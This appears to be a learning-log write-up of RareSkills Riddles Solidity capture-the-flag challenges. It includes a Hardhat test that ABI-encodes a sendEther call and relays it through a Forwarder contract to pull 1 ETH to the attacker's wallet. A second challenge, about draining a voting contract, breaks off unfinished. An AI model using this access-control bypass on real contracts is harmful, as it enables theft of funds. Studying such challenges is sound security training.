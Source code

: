 ## Day 13: Business logic errors (and ABI encoding Prerequisite)

### RareSkills Riddles: Forwarder

The objective of this attack is to get the attacker's wallet to be near 1 Eth in value.  This appears to be a test of using call() and delegatecall().  The Wallet's sendEther function expects to be called by the Forwarder contract.  

```Java
    function sendEther(address destination, uint256 amount) public {
        require(msg.sender == forwarder, "sender must be forwarder contract");
        (bool success, ) = destination.call{value: amount}("");
        require(success, "failed");
    }
```

The Hardhat test code to make this call is given below.  The hardest part was encoding in JavaScript.  

```Javascript
    it("conduct your attack here", async function () {
      // forwarder contract needs to call functionCall(walletContract.address, bytes)
      // set up abi.encodeWithSignature in JS
      let ABI = ["constructor(address _forwarder)",
        "function sendEther(address destination, uint256 amount)",];
      let iface = new ethers.utils.Interface(ABI);
      let encodedShit = iface.encodeFunctionData("sendEther", [attackerWallet.address, ethers.utils.parseEther("1")]);

      await forwarderContract.connect(attackerWallet).functionCall(walletContract.address, encodedShit);
    });
```

The code above simply has the forwarderContract forward the ```sendEther()``` call to the Wall contract.  


### RareSkills Riddles: Assign Votes

The objective here is to drain the victimContract in one transaction.  The contract can create proposals and addresses can vote on these proposals if they have been assigned.  Each address can vote 

Each proposal has a value, a target address and data that will be called if the number of votes is over 9.  

